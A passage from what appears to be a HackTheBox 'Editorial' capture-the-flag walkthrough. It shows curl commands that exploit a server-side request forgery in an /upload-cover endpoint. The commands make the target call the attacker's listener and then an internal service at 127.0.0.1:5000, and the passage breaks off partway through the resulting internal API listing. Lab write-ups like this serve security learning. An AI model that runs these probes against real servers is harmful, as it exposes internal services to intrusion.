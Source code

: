 #### Trigger HTTP request to netcat with `/upload-cover` endpoint
```
┌──(magicrc㉿perun)-[~/attack/HTB Editorial]
└─$ LHOST=$(ip addr show tun0 | grep "inet " | awk '{print $2}' | cut -d'/' -f1)
curl http://editorial.htb/upload-cover -F "bookurl=http://$LHOST:8000" -F "bookfile=;filename="
/static/images/unsplash_photo_1630734277837_ebe62757b6e0.jpeg
```

#### Analyze inbound HTTP request
```
connect to [10.10.14.161] from (UNKNOWN) [10.129.50.54] 55006
GET / HTTP/1.1
Host: 10.10.14.161:8000
User-Agent: python-requests/2.25.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

`User-Agent: python-requests/2.25.1` suggests Python backend application 

#### Discover REST API of local backend Python application using SSRF 
```
┌──(magicrc㉿perun)-[~/attack/HTB Editorial]
└─$ FILE=$(curl -s http://editorial.htb/upload-cover -F "bookurl=http://127.0.0.1:5000" -F "bookfile=;filename=")
curl -s http://editorial.htb/$FILE | jq
{
  "messages": [
    {
      "promotions": {
        "description": "Retrieve a list of all the promotions in our library.",
        "endpoint": "/api/latest/metadata/messages/promos",
        "methods": "GET"
      }
    },
    {
      "coupons": {
        "description": "Retrieve the list of coupons to use in our library.",
        "endpoint": "/api/latest/metadata/messages/coupons",
        "methods": "GET"
      }
    },
    {
      "new_authors": {
        "description": "Retrieve the welcome message sended to our new authors.",
        "endpoint": "/api/latest/metadata/messages/authors",
        "methods": "GET"
      }
    },
    {
      "platform_use": {
        "description": "Retrieve examples of how to use the platform.",
        "endpoint": "/api/latest/metadata/messages/how_to_use_platform",
        "methods": "GET"
      }
    }
  ],
  "version": [
    {
      "changelog": {
        "description": "Retrieve a list of all the versions and updates of the api.",
        "endpoint": "/api/latest/metadata/changelog",
```